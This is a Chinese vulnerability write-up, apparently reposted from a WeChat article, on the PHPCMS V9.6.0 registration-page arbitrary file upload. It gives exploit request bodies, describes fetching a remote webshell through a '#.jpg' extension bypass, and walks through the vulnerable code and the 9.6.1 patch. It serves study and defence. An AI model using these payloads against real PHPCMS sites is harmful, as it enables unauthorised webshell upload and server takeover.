## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：注册/editor模型启用、allow_url_fopen、远程文件可达；上传PHP可执行

- **适用与权限边界（1）**：与311同漏洞独立分析，本文补allow_url_fopen及Seebug编号，311补模型/回显失败条件，宜整合互补。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：利用方式1/2只是Burp/Hackbar工具差异，不是两漏洞。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：利用条件仅影响范围应用过空，未列choosemodel/唯一用户名/SSO；pocsuite脚本被公众号回复门槛替代。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（4）**：new_stripslashes被描述引号转义与实际去斜线含义反，扩展提取流程重复说明。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PHPCMS V9.6.0 前台任意文件上传

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sH0-JfD07AzMzpknqWME1w)

#### **影响范围**

PHPCMS V9.6.0

#### **攻击类型**

任意文件上传

#### **利用条件**

影响范围应用

#### **漏洞概述**

2017 年 4 月份左右 PHPCMS V9.6 被曝出注册页面存在任意文件上传漏洞，通过该漏洞攻击者可以在未授权的情况下上传任意文件，甚至 getshell

#### **漏洞复现**

##### 利用方式 1

首先打开用户注册页面，之后随意填写数据，同时使用 burpsuite 抓取数据包：

```
http://192.168.174.138/phpcms/index.php?m=member&c=index&a=register&siteid=1

```



之后发送到 repeater 模块，同时修改请求数据包中的请求数据为：

```
siteid=1&modelid=11&username=joe&password=123456&email=123qwe@qq.com&info[content]=&dosubmit=1&protocol=

```



文件成功上传



##### 利用方式 2

在 Firefox 中访问用户注册页面，同时通过 hackbar 来 POST 以下请求 (这里的 img 标签中的 src 为可以访问到的 VPS 中的 webshell 木马程序访问地址)：

```
siteid=1&modelid=11&username=Al1ex&password=1234567&email=1234@163.com&info[content]=&dosubmit=1&protocol=

```



之后更具目录去相关目录下查看文件，发现 webshell 确实已经被成功上传：



之后使用蚁剑来连接：  





#### 漏洞分析

首先我们需要查看一下用户的注册功能 "phpcms/modules/member/index.php" 中的 register 函数：



从上面的流程可以看到首先是获取用户的 siteid，之后定义了站点的 id 并加载了用户模块和短信模块的配置，之后通过对 "$_POST['dosubmit']" 是否为空进行判断来确定是否要进入用户注册流程当中，而我们这里自然是不为空了，所以我们继续跟进。之后通过查看代码我们可以看到对于用户的信息验证代码在 L129 行开始，同时我们之前在漏洞验证过程中的关键词 "info" 也出现了，我们继续跟进：



从上面的代码中我们可以看到对于 post 进的 info 信息首先通过 "new_html_special_chars" 来转义了一下 HTML 特殊字符，之后用将其传入到了 member_input 中，之后我们跟进 get 函数来看看：



从上面可以看到这里首先通过 trim_sript 函数：



从函数功能来看这里只是对用户的输入的数据中的 javscript 代码进行了一次转义。  

在 get 函数中有个关键的点就是 if(is_array($data))，我们 payload 中的 info 就是个数组，所以能走进这个 if 条件中，继续跟。 先是用 foreach 进行遍历 $info，键名为 $field，键值为 $value，首先用 safe_replace 进行了一次安全替换：



之后我们再次返回到 get 函数中，由于我们的 payload 是 info[content]，所以调用的是 editor 函数，同样在这个文件中：



接下来函数执行 $this->attachment->download 函数进行下载，我们继续跟进，在 phpcms/libs/classes/attachment.class.php 中：



函数中先对 $value 中的引号进行了转义，然后使用正则匹配：

```
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i",$string, $matches)) return $value;

```

这里正则要求输入满足 src/href=url.(gif|jpg|jpeg|bmp|png)，我们的 payload （`  `）符合这一格式（这也就是为什么后面要加. jpg 的原因）。接下来程序使用这行代码来去除 url 中的锚点：$remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);，处理过后 $remotefileurls 的内容如下：



可以看到 #.jpg 会被自动删除了，正因如此，下面的 $filename = fileext($file); 取的的后缀变成了 php，这也就是 PoC 中为什么要加 #的原因: 把前面为了满足正则而构造的. jpg 过滤掉，使程序获得我们真正想要的 php 文件后缀。随后在这一行带入了函数 fillurl：



同时在 fillurl 中去掉了 #后的内容：

```
$pos = strpos($surl,'#');
        if($pos>0) $surl = substr($surl,0,$pos);

```

随后便进行下载：



其中 $upload_func 等同于 php 的 copy 函数。 然而：



而 fopen 一般都是可用的，如果开启了 allow_url_fopen，这个漏洞就构成了，然而大部分环境都默认开启了 allow_url_fopen。 

最终在插入注册信息时因为混入了未知的参数而导致插入失败，报错就显示出了这个未知的参数至此，该漏洞分析完成。

#### **漏洞 POC**

**pocsuite3**

POC 完整脚本后台回复 "PHPCMS" 下载



#### **修复建议**

 phpcms 发布了 9.6.1 版本，针对该漏洞的具体补丁如下, 在获取文件扩展名后再对扩展名进行检测



#### 参考链接

https://www.seebug.org/vuldb/ssvid-92930

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
